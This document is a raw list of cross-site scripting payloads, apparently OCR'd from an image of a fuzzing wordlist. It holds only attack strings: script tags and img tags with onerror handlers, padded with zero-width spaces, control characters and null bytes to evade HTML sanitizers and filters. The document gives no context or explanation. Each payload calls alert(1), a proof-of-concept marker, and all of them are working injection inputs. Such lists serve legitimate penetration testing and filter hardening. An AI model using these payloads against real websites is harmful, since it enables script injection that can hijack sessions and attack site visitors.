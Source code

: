 "`'><script>\xE2\x80\x83javascript:alert(1)</script>
"`'><script>\xE2\x80\x8Bjavascript:alert(1)</script>
"`'><script>\xEF\xBF\xBEjavascript:alert(1)</script>
"`'><script>\xE2\x80\x80javascript:alert(1)</script>
"`'><script>\x21javascript:alert(1)</script>
"`'><script>\xE2\x80\x82javascript:alert(1)</script>
"`'><script>\xE2\x80\x86javascript:alert(1)</script>
"`'><script>\xE1\xA0\x8Ejavascript:alert(1)</script>
"`'><script>\x0Bjavascript:alert(1)</script>
"`'><script>\x20javascript:alert(1)</script>
"`'><script>\xC2\xA0javascript:alert(1)</script>
<img \x00src=x onerror="alert(1)">
<img \x47src=x onerror="javascript:alert(1)">
<img \x11src=x onerror="javascript:alert(1)">
<img \x12src=x onerror="javascript:alert(1)">
<img\x47src=x onerror="javascript:alert(1)">
<img\x10src=x onerror="javascript:alert(1)">
<img\x13src=x onerror="javascript:alert(1)">
<img\x32src=x onerror="javascript:alert(1)">
<img\x47src=x onerror="javascript:alert(1)">
<img\x11src=x onerror="javascript:alert(1)">
<img \x47src=x onerror="javascript:alert(1)">
<img \x34src=x onerror="javascript:alert(1)">
<img \x39src=x onerror="javascript:alert(1)">
<img \x00src=x onerror="javascript:alert(1)">
<img src\x09=x onerror="javascript:alert(1)">
<img src\x10=x onerror="javascript:alert(1)">
<img src\x13=x onerror="javascript:alert(1)">
<img src\x32=x onerror="javascript:alert(1)">
<img src\x12=x onerror="javascript:alert(1)">
<img src\x11=x onerror="javascript:alert(1)">
<img src\x00=x onerror="javascript:alert(1)">
<img src\x47=x onerror="javascript:alert(1)">
<img src=x\x09onerror="javascript:alert(1)">
<img src=x\x10onerror="javascript:alert(1)">
<img src=x\x11onerror="javascript:alert(1)">
<img src=x\x12onerror="javascript:alert(1)">
<img src=x\x13onerror="javascript:alert(1)">
<img[a][b][c]src[d]=x[e]onerror=[f]"alert(1)">
<img src=x onerror=\x09"javascript:alert(1)">
<img src=x onerror=\x10"javascript:alert(1)">
<img src=x onerror=\x11"javascript:alert(1)">
<img src=x onerror=\x12"javascript:alert(1)">
<img src=x onerror=\x32"javascript:alert(1)">